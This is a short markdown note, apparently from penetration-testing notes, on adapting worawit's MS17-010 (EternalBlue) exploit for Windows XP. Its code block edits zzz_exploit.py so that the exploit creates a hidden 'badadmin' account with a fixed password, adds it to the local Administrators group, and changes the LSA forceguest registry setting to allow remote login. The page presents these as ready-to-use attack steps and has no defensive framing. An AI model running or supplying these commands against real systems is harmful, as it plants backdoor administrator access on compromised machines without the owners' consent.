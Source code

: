 
## Modifications for XP

Python2 Warning see [[Python-Tooling-Libraries]]
[Modifcations for XP](https://nullsec.us/eternalblue-on-windows-xp/) for [worawit](https://github.com/worawit/MS17-010)
```python
# modify zzz_exploit.py
# at line 975
service_exec(conn, r'cmd /c net user badadmin password123! /add')
service_exec(conn, r'cmd /c net localgroup Administrators badadmin /add')
service_exec(conn, r'reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v forceguest /t reg_dword /d 0 /f')
```


## References

[Modifcations for XP](https://nullsec.us/eternalblue-on-windows-xp/) 
[worawit exploit version](https://github.com/worawit/MS17-010)